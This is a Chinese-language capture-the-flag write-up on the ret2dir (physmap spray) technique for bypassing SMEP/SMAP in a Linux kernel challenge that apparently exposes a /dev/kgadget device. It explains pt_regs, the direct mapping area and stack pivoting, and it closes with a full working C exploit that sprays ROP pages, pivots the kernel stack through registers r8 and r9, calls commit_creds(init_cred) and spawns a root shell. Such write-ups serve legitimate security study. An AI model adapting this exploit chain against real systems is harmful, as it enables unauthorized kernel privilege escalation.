



这是一种绕过SMAP/SMEP和PXN防护的攻击方式。利用内核空间的direct mapping area（起始位置为0xFFF8880000000000）。Linux对内存的访问采用的是多级页表的方式，将某段物理内存映射到程序的虚拟内存空间中的某段地址。而在Linux内核空间中，还存在着direct mapping area这块区域，对于物理映射到用户态内存的所有物理内存地址，在这里都能够进行访问，即用户态的每一页被映射的内存空间在这里也一样能够访问，二者访问同一块物理内存空间。
至于具体的利用方式是如何，还是看题目最为直接。主要参考资料与题目来源
首先找到ioctl函数，只有一个指令码114514有意义。其中有一个qmemcpy函数，这里的反汇编有一些问题，我们还是找到汇编来仔细看看。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 struct pt_regs { unsigned long r15; unsigned long r14; unsigned long r13; unsigned long r12; unsigned long rbp; unsigned long rbx; unsigned long r11; unsigned long r10; unsigned long r9; unsigned long r8; unsigned long rax; unsigned long rcx; unsigned long rdx; unsigned long rsi; unsigned long rdi; unsigned long orig_rax; unsigned long rip; unsigned long cs; unsigned long eflags; unsigned long rsp; unsigned long ss; };
看上去像是寄存器组。查询相关资料 与源码后，渐渐地才搞清楚来龙去脉。
首先要清楚的是，用户态程序和内核进行交互的最重要的方式就是系统调用。系统调用就是内核开放给用户程序的一个个接口。在每一次触发系统调用时，Linux都会从用户态转为内核态。在转换的过程中，内核会创建一个自己的栈空间，而不会使用用户态的栈空间。
下面是x86-64位下的THREAD_SIZE值声明，其值应该为页大小左移2位，即16KB。
1 2 3 4 5 6 7 8 #ifdef CONFIG_KASAN #define KASAN_STACK_ORDER 1 #else #define KASAN_STACK_ORDER 0 #endif #define THREAD_SIZE_ORDER (2 + KASAN_STACK_ORDER) #define THREAD_SIZE (PAGE_SIZE << THREAD_SIZE_ORDER)
提到pt_regs，就必须要说task_struct结构体，这是Linux系统的PCB（进程控制块），保存有一个进程的所有信息（父子进程、时间、状态等），具体的分析参见资料 。其中有一个void*类型的字段stack，存放的就是线程的栈起始地址。通过下面的函数我们可以找到这个线程的pt_regs：
1 2 3 4 5 6 7 8 9 10 11 static inline void *task_stack_page (const struct task_struct *task) { return task->stack ; } ...... #define task_pt_regs(task) \ ({ \ unsigned long __ptr = (unsigned long)task_stack_page(task); \ __ptr += THREAD_SIZE - TOP_OF_KERNEL_STACK_PADDING; \ ((struct pt_regs *)__ptr) - 1; \ })
这里的THREAD_SIZE就是栈的大小16KB，后面的TOP_OF_KERNEL_STACK_PADDING取0，也即往上加16KB之后减去一个pt_regs的大小就是线程的pt_regs结构体的位置。
好，现在我们再回到这道题目上面来。还是这张图，在0x155的lea指令就将rdx的值赋值为了pt_regs的地址值。我们通过上面的pt_regs结构体声明可以计算一下这个结构体的大小，应该为0xA8字节（unsigned long占8字节），因此此时的rax-0xA8就是pt_regs的起始地址。然后这里是将其中的7个属性值全部赋值为无效值，查看pt_regs结构体发现实际上就是销毁了r15，r14，r13，r12，r11，rbp，r10这5个寄存器的值，仅仅保留后面的r9、r8和其他系统调用必需的寄存器。这也与题目中printk打印出来的字符串提示相吻合，只有r8和r9寄存器可用。至于具体用来干嘛，后面再看。
在printk之后，指令call __x86_indirect_thunk_rbx实际上等同于call rbx。
资料 。
之后还有一个pv_ops，使用IDA打开vmlinux之后发现这是一个函数指针数组。其第85个元素指向__raw_callee_save___native_queued_spin_unlock函数，应该也是和内核的互斥锁有关，这里不进行详细分析。
open、read、write函数与release函数基本上差不多，不做分析。看来对我们有用的就只有ioctl函数了。
顺便提一句，这道题的bzImage坑了我两天时间，用Linux官方的extract_vmlinux没有办法解压成vmlinux，直到安装了vmlinux-to-elf之后才得以解决，原来这个bzImage是用zstd压缩的，必须安装zstd包才能解压。。。。。。
本题的ioctl函数中实际上是将传入的第三个参数作为函数指针，在内核中执行。而要知道本题开启了SMEP保护，因此不能传入一个用户态的指针，而应该是内核态指针。
前面我们提到了direct mapping area这块内核空间，其能够与用户态访问相同的物理地址空间，因此我们可以利用这块空间，在用户态布置好ROP，然后让内核访问这里的空间，就相当于是执行用户态中的ROP。但是话说回来，我们不知道具体哪一块用户态地址和哪一块内核地址指向相同，这就需要我们使用滑梯（slider）这种手段了，通过大量的无效ROP来提升我们攻击成功的概率。
1 2 3 4 5 6 7 8 9 10 11 12 #!/bin/sh qemu-system-x86_64 \ -m 256M \ -cpu kvm64,+smep,+smap \ -smp cores=2,threads=2 \ -kernel bzImage \ -initrd ./rootfs.cpio \ -nographic \ -monitor /dev/null \ -snapshot \ -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \ -no-reboot
上面是起qemu的命令，可以看到有nokaslr选项，说明没有开启kaslr，我们通过vmlinux就可以获取到关键函数的内核地址。
1 2 const u_int64_t commit_creds = 0xFFFFFFFF810C92E0 ;const u_int64_t prepare_kernel_cred = 0xFFFFFFFF810C9540 ;
接下来，我们需要申请很大的空间，存放ROP链。这里每一次申请大小均为一页的大小，其中mmap函数fd参数为-1表示不需要文件描述符，以匿名的方式分配空间。
1 map_spray[0 ] = mmap(NULL , page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1 , 0 );
我们使用ROP来填充分配到的所有空间，经过ROPgadget查询发现，没有mov rdi, rax; ret这样的gadget，因此我们无法使用commit_creds(prepare_kernel_cred(NULL))来提权，因为内部函数的执行结果保存在rax中，必须要将其转移到rdi才行，这里没有这个gadget，那我们就换一种方式：commit_creds(init_cred)，这里的init_cred在.data段，就是表示root权限的creds结构体。之后我们需要正常返回到用户态中，这里原文使用的是一个函数swapgs_restore_regs_and_return_to_usermode。通过函数名我们可以知道这是一个保存pt_regs结构并且返回到用户态的函数。至于为什么不能像前面两道题那样分别将swapgs和iretq的gadget保存在ROP中，猜测是因为这个vmlinux中没有iretq; ret这样的gadget。
可以看到下图中，函数一开始将寄存器基本上全pop了一遍，因为正常情况下调用这个函数的时候栈中只剩下pt_regs这个结构体，因此这是将结构体中保存的寄存器值再弹出到寄存器中。由于我们这里是伪造的ROP，因此不需要前面的pop，直接返回到第一个非pop语句即可。
save_status中保存的值就可以了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 void makeROP (size_t * space) { int index = 0 ; for (; index < page_size / 8 - 0x10 ; index++) space[index] = ret; space[index++] = poprdi_ret; space[index++] = init_cred; space[index++] = commit_creds; space[index++] = swapgs_restore_regs_and_return_to_usermode; space[index++] = 0xdeadbeefdeadbeef ; space[index++] = 0xdeadbeefdeadbeef ; space[index++] = *(size_t *)getShell; space[index++] = user_cs; space[index++] = user_rflags; space[index++] = user_sp; space[index] = user_ss; }
我们的ROP链都是在用户空间编写的，能够映射到内核空间的某个地方，但是要执行这些ROP还需要我们将栈引导到这些内核映射区中。这就要使用到ioctl函数中的地址执行功能了，可以让函数指针指向一个能为rsp赋值的gadget，可以进行栈迁移。
需要注意的是，本题的栈迁移构造条件还是较为苛刻的，我们计划将函数指针赋值为一个可能指向我们spray ROP的地址，在其中写入能够add rsp的gadget，这样能够让内核的栈指针指向pt_regs结构，在pt_regs结构中我们只能利用r9和r8这两个寄存器构造ROP，在这两个寄存器中我们需要构造一个栈迁移，即写入诸如pop rsp这一类的gadget。经过测试发现，对于第一步的add rsp，我们构造的ROP距离rsp有0xC0，而有一个gadgetadd rsp, 0xA0; pop rbx; pop r12; pop r13; ret刚好满足我们的要求。使用这个gadget可以让我们成功进行栈迁移。
至此，所有的逻辑都已经清晰可见。其本质就是栈迁移到我们构造的地址，只是利用了direct mapping area这个区域的特性而已。
最终的exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 #include <stdio.h> #include <unistd.h> #include <fcntl.h> #include <stdlib.h> #include <string.h> #include <ctype.h> #include <sys/mman.h> const size_t commit_creds = 0xFFFFFFFF810C92E0 ;const size_t init_cred = 0xFFFFFFFF82A6B700 ;const size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FB0 + 0x1B ;const size_t ret = 0xFFFFFFFF810001FC ;const size_t poprdi_ret = 0xffffffff8108c6f0 ;const size_t poprsp_ret = 0xffffffff811483d0 ;const size_t add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe ;long page_size;size_t * map_spray[16000 ];size_t guess;int dev;size_t user_cs, user_ss, user_rflags, user_sp;void save_status () ;void print_binary (char *, int ) ;void info_log (char *) ;void error_log (char *) ;void getShell () ;void makeROP (size_t *) ;void save_status () { __asm__("mov user_cs, cs;" "mov user_ss, ss;" "mov user_sp, rsp;" "pushf;" "pop user_rflags;" ); info_log("Status has been saved." ); } void print_binary (char * buf, int length) { int index = 0 ; char output_buffer[80 ]; memset (output_buffer, '\0' , 80 ); memset (output_buffer, ' ' , 0x10 ); for (int i=0 ; i<(length % 16 == 0 ? length / 16 : length / 16 + 1 ); i++){ char temp_buffer[0x10 ]; memset (temp_buffer, '\0' , 0x10 ); sprintf (temp_buffer, "%#5x" , index); strcpy (output_buffer, temp_buffer); output_buffer[5 ] = ' ' ; output_buffer[6 ] = '|' ; output_buffer[7 ] = ' ' ; for (int j=0 ; j<16 ; j++){ if (index+j >= length) sprintf (output_buffer+8 +3 *j, " " ); else { sprintf (output_buffer+8 +3 *j, "%02x " , ((int )buf[index+j]) & 0xFF ); if (!isprint (buf[index+j])) output_buffer[58 +j] = '.' ; else output_buffer[58 +j] = buf[index+j]; } } output_buffer[55 ] = ' ' ; output_buffer[56 ] = '|' ; output_buffer[57 ] = ' ' ; printf ("%s\n" , output_buffer); memset (output_buffer+58 , '\0' , 16 ); index += 16 ; } } void error_log (char * error_info) { printf ("\033[31m\033[1m[x] Fatal Error: %s\033[0m\n" , error_info); exit (1 ); } void info_log (char * info) { printf ("\033[33m\033[1m[*] Info: %s\033[0m\n" , info); } void success_log (char * info) { printf ("\033[32m\033[1m[+] Success: %s\033[0m\n" , info); } void getShell () { info_log("Ready to get root......" ); if (getuid()){ error_log("Failed to get root!" ); } success_log("Root got!" ); system("/bin/sh" ); } void makeROP (size_t * space) { int index = 0 ; for (; index < (page_size / 8 - 0x30 ); index++) space[index] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret; for (; index < (page_size / 8 - 0x10 ); index++) space[index] = ret; space[index++] = poprdi_ret; space[index++] = init_cred; space[index++] = commit_creds; space[index++] = swapgs_restore_regs_and_return_to_usermode; space[index++] = 0xdeadbeefdeadbeef ; space[index++] = 0xdeadbeefdeadbeef ; space[index++] = (size_t )getShell; space[index++] = user_cs; space[index++] = user_rflags; space[index++] = user_sp; space[index] = user_ss; print_binary((char *)space, page_size); } int main () { save_status(); dev = open("/dev/kgadget" , O_RDWR); if (dev < 0 ) error_log("Cannot open device \"/dev/kgadget\"!" ); page_size = sysconf(_SC_PAGESIZE); info_log("Spraying physmap......" ); map_spray[0 ] = mmap(NULL , page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1 , 0 ); makeROP(map_spray[0 ]); for (int i=1 ; i<15000 ; i++){ map_spray[i] = mmap(NULL , page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1 , 0 ); if (!map_spray[i]) error_log("Mmap Failure!" ); memcpy (map_spray[i], map_spray[0 ], page_size); } guess = 0xffff888000000000 + 0x7000000 ; info_log("Ready to turn to kernel......" ); __asm__("mov r15, 0xdeadbeef;" "mov r14, 0xcafebabe;" "mov r13, 0xdeadbeef;" "mov r12, 0xcafebabe;" "mov r11, 0xdeadbeef;" "mov r10, 0xcafebabe;" "mov rbp, 0x12345678;" "mov rbx, 0x87654321;" "mov r9, poprsp_ret;" "mov r8, guess;" "mov rax, 0x10;" "mov rcx, 0x12345678;" "mov rdx, guess;" "mov rsi, 0x1bf52;" "mov rdi, dev;" "syscall;" ); return 0 ; }